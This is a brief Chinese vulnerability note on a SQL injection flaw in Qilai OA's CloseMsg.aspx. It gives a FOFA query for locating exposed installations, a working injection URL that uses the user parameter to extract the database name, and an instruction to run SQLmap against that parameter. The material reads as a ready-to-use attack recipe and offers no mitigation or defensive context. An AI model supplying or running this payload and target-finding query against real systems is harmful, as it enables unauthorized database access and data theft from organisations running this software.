


# 启莱OA CloseMsg.aspx SQL注入漏洞

## 漏洞描述

启莱OA CloseMsg.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## FOFA

```
app="启莱OA"
```

## 漏洞复现

登录页面如下

存在SQL注入的文件为 CloseMsg.aspx

```plain
http://xxx.xxx.xxx.xxx/client/CloseMsg.aspx?user=' and (select db_name())>0--&pwd=1
```



使用SQLmap对参数 user 进行注入


